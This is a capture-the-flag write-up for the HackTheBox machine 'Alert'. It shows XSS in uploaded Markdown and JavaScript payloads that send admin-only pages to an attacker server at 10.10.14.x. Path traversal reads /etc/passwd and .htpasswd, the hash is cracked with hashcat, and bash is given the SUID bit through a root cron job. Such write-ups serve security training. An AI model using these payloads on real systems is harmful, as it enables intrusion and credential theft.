




## INITIAL ENUMERATION

```SHELL
nmap -sV -sC 10.129.231.188
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 11:50 CET
Nmap scan report for 10.129.231.188
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
```

## WEB

Browsing to the domain, we come across a site that allows us to view and share Markdown files



Looking at the About Us page, we notice a disclaimer that states that the Administrator will review messages sent.



We then proceed to fuzz the website to look for directories that may be present:

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3- medium.txt:FUZZ -u "http://alert.htb/FUZZ" -ic 
:: Method : GET 
:: URL : http://alert.htb/FUZZ 
:: Wordlist : FUZZ: /usr/share/wordlists/SecLists/Discovery/WebContent/directory-list-2.3-medium.txt 
:: Follow redirects : false 
:: Calibration : false 
:: Timeout : 10 
:: Threads : 40 
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500 ________________________________________________ 
uploads [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 798ms] 
css [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 206ms] 
messages [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 193ms]
```

Here, we see three directories called messages , css , and uploads . We then run extension fuzzing against the web application, specifying the extension as .php , similar to the extension on the main page.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3- medium.txt:FUZZ -u "http://alert.htb/FUZZ" -ic -e .php 
:: Method : GET 
:: URL : http://alert.htb/FUZZ 
:: Wordlist : FUZZ: /usr/share/wordlists/SecLists/Discovery/WebContent/directory-list-2.3-medium.txt 
:: Extensions : .php 
:: Follow redirects : false 
:: Calibration : false 
:: Timeout : 10
:: Threads : 40 
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500 ________________________________________________  
contact.php [Status: 200, Size: 24, Words: 3, Lines: 2, Duration: 179ms] 
.php [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 179ms] 
index.php [Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 186ms] 
uploads [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 175ms] 
css [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 177ms] 
messages [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 170ms] messages.php [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 169ms]
```


I tried to enumerate the subdomains:

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomainstop100000.txt:FFUZ -H "Host: FFUZ.alert.htb" -u http://alert.htb -fw 20 :: Method : GET 
:: URL : http://alert.htb 
:: Wordlist : FFUZ: /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt 
:: Header : Host: FFUZ.alert.htb 
:: Follow redirects : false 
:: Calibration : false 
:: Timeout : 10 
:: Threads : 40 
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500 
:: Filter : Response words: 20 
________________________________________________ 

statistics [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 176ms]
```

Upon visiting the statistics subdomain, we are presented with a login page.


Since we do not have credentials to log in, we perform a Google search for markdown exploitation and discover this [page](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/xss-in-markdown.html) detailing how to run XSS in markdown. We attempt to execute XSS payloads via markdown. We begin by creating a markdown file to trigger an alert.

I'll create a file named alert.md with this content:

```shell
<!-- XSS with regular tags -->
<script>
alert(1)
</script>

```

After uploading the markdown and attempting to view it, we notice that the alert has been triggered. This confirms the XSS vulnerability.


We then change the payload to try and pull a file using the `<script>` tag, where the `src` attribute specifies the URL of the external JavaScript file that will be fetched and executed in the
browser.

```shell
<script src="http://10.10.16.6:3000/pwned.js"></script>
```

Then, we start a Netcat listener on port 3000 to capture the incoming request for the JavaScript file. We upload our new payload and view the markdown file, upon looking back at our listener, we see that we receive the pull request.

```shell
nc -lvnp 3000 
listening on [any] 3000 ... 
connect to [10.10.14.5] from (UNKNOWN) [10.10.14.5] 58850 
GET /pwned.js HTTP/1.1 
Host: 10.10.14.5:3000 
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0 
Accept: */* 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
DNT: 1 
Connection: keep-alive 
Referer: http://alert.htb/
```

Looking at the bottom right corner of the page, we see an option to share the markdown


By clicking on the option, we get this URL http://alert.htb/visualizer.php?
link_share=67d96140f1d994.98908455.md .

Since we have a contact form, we can share the URL with the administrator and change the payload pwned.js to try to get the content of the messages.php page:

```c
var req = new XMLHttpRequest(); 
req.open('GET', 'http://alert.htb/messages.php', false); 
req.send(); 
var req2 = new XMLHttpRequest(); 
req2.open('GET', 'http://10.10.14.5:3000/?content=' + btoa(req.responseText), true); 
req2.send()
```

The above payload will send a GET request to the messages.php page, retrieve its content, and then encode the response using Base64 . The encoded content is sent to our server via another GET request, where we can decode it and view the page's contents. 

We start a Python HTTP server to listen for incoming requests from the payload.

```shell
python3 -m http.server 3000 
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
```

After starting our Python HTTP server, we send the URL to share the markdown in the Contact Us message body.



After hitting send, we look back at our listener and see that we get a request with the content of the messages.php page in Base64 encoding

```shell
python3 -m http.server 3000 Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ... 
10.10.14.5 - - [18/Mar/2025 08:04:14] "GET /pwned.js HTTP/1.1" 200 - 
10.10.14.5 - - [18/Mar/2025 08:04:14] "GET /?content=Cg== HTTP/1.1" 200 - 10.10.14.5 - - [18/Mar/2025 08:04:17] "GET /?content=Cg== HTTP/1.1" 200 - 10.10.11.44 - - [18/Mar/2025 08:05:34] "GET /pwned.js HTTP/1.1" 200 - 
10.10.11.44 - - [18/Mar/2025 08:05:35] "GET /? content=PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwM jQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg == HTTP/1.1" 200 -
```

We proceed to decode the Base64 data

```shell
echo "PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMt MTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg==" | base64 -d

# Messages

- [2024-03-10_15-48-34.txt](messages.php?file=2024-03-10_15-48-
    34.txt)
```

Looking at the file parameter, we see the file name, which we check to see if it is vulnerable to Arbitrary File Read by editing the GET request to try and read the /etc/passwd file.

```c
var req = new XMLHttpRequest(); 
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/passwd', false); 
req.send(); 
var req2 = new XMLHttpRequest(); 
req2.open('GET', 'http://10.10.14.3:3000/?content=' + btoa(req.responseText), true); 
req2.send();
```

After sending the new payload, getting a new Markdown shareable link, and sending that to the administrator, we check out the Python web server and see base64-encoded data.

```shell
python3 -m http.server 3000 
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ... 
10.10.14.5 - - [18/Mar/2025 08:13:23] "GET /pwned.js HTTP/1.1" 200 - 
10.10.11.44 - - [18/Mar/2025 08:13:36] "GET /pwned.js HTTP/1.1" 200 - 
10.10.11.44 - - [18/Mar/2025 08:13:37] "GET /? content=PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb 246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2JpbjovdXNyL3NiaW4vbm 9sb2dpbgpzeXM6eDozOjM6c3lzOi9kZXY6L3Vzci9zYmluL25vbG9naW 2YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmRhdmlkOng6MTAwMToxMDAyOiwsLDovaG9t ZS9kYXZpZDovYmluL2Jhc2gKPC9wcmU+Cg== HTTP/1.1" 200
```

We decode it, which reveals the contents of the /etc/passwd file.

```shell
echo "PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vz ci9zYmluOi91c3Ivc2Jpbi9ub2xv mluL25vbG9naW4KYWxiZXJ0Ong6MTAwMDoxMDAwOmFsYmVydDovaG9tZS9hbGJlcnQ6L2Jpbi9iYXNoCm x4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmRhdmlkOng6MTA wMToxMDAyOiwsLDovaG9tZS9kYXZpZDovYmluL2Jhc2gKPC9wcmU+Cg==" |base64 -d

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
<snip>
```

From earlier enumeration, we discovered statistics.alert.htb , which prompts for authentication. 
We can now attempt to read the Apache virtual host configuration file located at /etc/apache2/sites-available/000-default.conf , to see how the sites are hosted and the configuration files too.

```c
var req = new XMLHttpRequest(); 
req.open('GET', 'http://alert.htb/messages.php? file=../../../../../etc/apache2/sites-available/000-default.conf',false); req.send(); 
var req2 = new XMLHttpRequest(); 
req2.open('GET', 'http://10.10.14.7:3000/?content=' + btoa(req.responseText), true); 
req2.send();
```

Looking back at the output, we get the following base64-encoded data.

```shell
python -m http.server 3000 
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ... 
10.10.11.44 - - [20/Mar/2025 09:52:01] "GET /pwned.js HTTP/1.1" 200 - 
10.10.11.44 - - [20/Mar/2025 09:52:01] "GET /? content=PHByZT48VmlydHVhbEhvc3QgKjo4MD4KICAgIFNlcnZlck5hbWUgYWxlcnQuaHRiCgogICAgR G9jdW1lbnRSb290IC92YXIvd3d3L2FsZXJ0Lmh0YgoKICAgIDxEaXJlY3RvcnkgL3Zhci93d3cvYWxlcn QuaHRiPgogICAgICAgIE9wdGlvbnMgRm9sbG93U3ltTGlua3MgTXVsdG gQXV0aFVzZXJGaWxlIC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiLy5odHBhc3N3ZAogICAgICAg IFJlcXVpcmUgdmFsaWQtdXNlcgogICAgPC9EaXJlY3Rvcnk+CgogICAgRXJyb3JMb2cgJHtBUEFDSEVfT E9HX0RJUn0vZXJyb3IubG9nCiAgICBDdXN0b21Mb2cgJHtBUEFDSEVfTE9HX0RJUn0vYWNjZXNzLmxvZy Bjb21iaW5lZAo8L1ZpcnR1YWxIb3N0PgoKPC9wcmU+Cg== HTTP/1.1" 200 -
```

Next, we can proceed to decode and read the content of the file.

```c
ServerName alert.htb


Options Indexes FollowSymLinks MultiViews
AllowOverride All
AuthType Basic
AuthName "Restricted Area"
AuthUserFile /var/www/statistics.alert.htb/.htpasswd
Require valid-user

ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
```

This reveals that /var/www/statistics.alert.htb/.htpasswd is used for storing hashed passwords for HTTP authentication on Apache web servers. We can then proceed to retrieve its contents.

```c
var req = new XMLHttpRequest(); 
req.open('GET', 'http://alert.htb/messages.php? file=../../../../../var/www/statistics.alert.htb/.htpasswd', false); 
req.send(); 
var req2 = new XMLHttpRequest(); 
req2.open('GET', 'http://10.10.14.5:3000/?content=' + btoa(req.responseText), true); 
req2.send();
```

Looking back at the output, we get the following base64-encoded data.

```shell
python3 -m http.server 3000 
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ... 
10.10.14.5 - - [18/Mar/2025 08:21:37] "GET /pwned.js HTTP/1.1" 200 - 
10.10.11.44 - - [18/Mar/2025 08:21:49] "GET /pwned.js HTTP/1.1" 200 - 
10.10.11.44 - - [18/Mar/2025 08:21:49] "GET /? content=PHByZT5hbGJlcnQ6JGFwcjEkYk1vUkJKT2ckaWdHOFdCdFExeFlEVFFkTGpTV1pRLwo8L3ByZ T4K HTTP/1.1" 200 -
```

We proceed to decode the base64 data.

```shell
echo "PHByZT5hbGJlcnQ6JGFwcjEkYk1vUkJKT2ckaWdHOFdCdFExeFlEVFFkTGpTV1pRLwo8L3ByZT4K" | base64 -d

albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

This reveals that the hash used here is Apache $apr1$ MD5 , which we crack using Hashcat .

```shell
hashcat -a 0 -m 1600 hash_file /usr/share/wordlists/rockyou.txt 

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited 
Session..........: hashcat 
Status...........: Cracked 
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR)) 
Hash.Target......: $apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/ 
Time.Started.....: Tue Mar 18 08:25:13 2025 (1 sec) 
Time.Estimated...: Tue Mar 18 08:25:14 2025 (0 secs) 
Kernel.Feature...: Pure Kernel 
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt) 
Guess.Queue......: 1/1 (100.00%) 

Started: Tue Mar 18 08:25:05 2025 
Stopped: Tue Mar 18 08:25:15 2025
```

We get the password as manchesterunited . Using these credentials, we can access the statistics suddomain and we come across a dashboard



Attempting to ssh into the box using the credentials we see that it works.

```shell
ssh albert@alert.htb 
albert@alert.htb's password: 

Last login: Tue Nov 19 14:19:09 2024 from 10.10.14.23 

albert@alert:~$ id uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```


## USER FLAG

```shell
albert@alert:~$ cat user.txt
bd5ecf99e0b537648a2a278dc1cab871
```


## ROOT FLAG

We can proceed to enumerate the processes that are running with pspy .

```shell
albert@alert:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/11/30 12:13:38 CMD: UID=1000  PID=3840   | ./pspy64 
2025/11/30 12:13:38 CMD: UID=1000  PID=3789   | -bash 
2025/11/30 12:13:38 CMD: UID=1000  PID=3788   | sshd: albert@pts/0   
2025/11/30 12:13:38 CMD: UID=1000  PID=3702   | (sd-pam) 
2025/11/30 12:13:38 CMD: UID=1000  PID=3701   | /lib/systemd/systemd --user 
2025/11/30 12:13:38 CMD: UID=0     PID=3685   | sshd: albert [priv]  

<snip>

2025/11/30 12:13:38 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2025/11/30 12:14:01 CMD: UID=0     PID=3851   | /usr/sbin/CRON -f 
2025/11/30 12:14:01 CMD: UID=0     PID=3853   | /usr/bin/php -f /opt/website-monitor/monitor.php 
2025/11/30 12:14:01 CMD: UID=0     PID=3852   | /bin/sh -c /usr/bin/php -f /opt/website-monitor/monitor.php >/dev/null 2>&1 
```


Here, we see UID=0 , which indicates that the task is running as root. Looking at the contents, we also notice that a configuration.php file is in the include directory, which is included in the script.

```shell
albert@alert:~$ cat /opt/website-monitor/monitor.php 
<?php
/*

Website Monitor
===============

Hello! This is the monitor script, which does the actual monitoring of websites
stored in monitors.json.

You can run this manually, but it’s probably better if you use a cron job.
Here’s an example of a crontab entry that will run it every minute:

* * * * * /usr/bin/php -f /path/to/monitor.php >/dev/null 2>&1

*/

include('config/configuration.php');

$monitors = json_decode(file_get_contents(PATH.'/monitors.json'));

foreach($monitors as $name => $url) {
        $response_data = array();
        $timestamp = time();
        $response_data[$timestamp]['timestamp'] = $timestamp;
        $curl = curl_init($url);
        curl_setopt($curl, CURLOPT_URL, $url);
        curl_setopt($curl, CURLOPT_HEADER, true);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        $response = curl_exec($curl);
        if(curl_exec($curl) === false) {
                $response_data[$timestamp]['error'] = curl_error($curl);
        }
        else {
                $info = curl_getinfo($curl);
                $http_code = $info['http_code'];
                $ms = $info['total_time_us'] / 1000;
                $response_data[$timestamp]['time'] = $ms;
                $response_data[$timestamp]['response'] = $http_code;
        }

        curl_close($curl);
        if(file_exists(PATH.'/monitors/'.$name)) {
                $data = json_decode(file_get_contents(PATH.'/monitors/'.$name), TRUE);
        }
        else {
                $data = array();
        }
        $data = array_merge($data, $response_data);
        $data = array_slice($data, -60);
        file_put_contents(PATH.'/monitors/'.$name, json_encode($data, JSON_PRETTY_PRINT));
}

```

Looking at the configuration.php file, we see that it is managed by the management group, which the user albert is a member of.

```shell
albert@alert:/opt/website-monitor/config$ ls -la 
total 12 
drwxrwxr-x 2 root management 4096 Oct 12 04:17 . 
drwxrwxr-x 7 root root 4096 Oct 12 01:07 .. 
-rwxrwxr-x 1 root management 49 Nov 5 14:31 configuration.php
```

We can edit the configuration.php file and insert the following PHP code to give SUID permissions to /bin/bash , which would allow us to execute it with root privileges:

```c
<?php
system("chmod u+s /bin/bash");
?>
```

Looking back at /bin/bash , we see that it has the SUID bit set.

```shell
albert@alert:/opt/website-monitor/config$ ls -la /bin/bash 

-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
```

We execute /bin/bash with root privileges and grab the root flag from /root/root.txt:

```shell
albert@alert:/opt/website-monitor/config$ /bin/bash -p
bash-5.0# whoami
root
```

And I can read the root flag:

```shell
bash-5.0# cat root.txt
165a58e6062cda673ccebcda6881a8b1
```

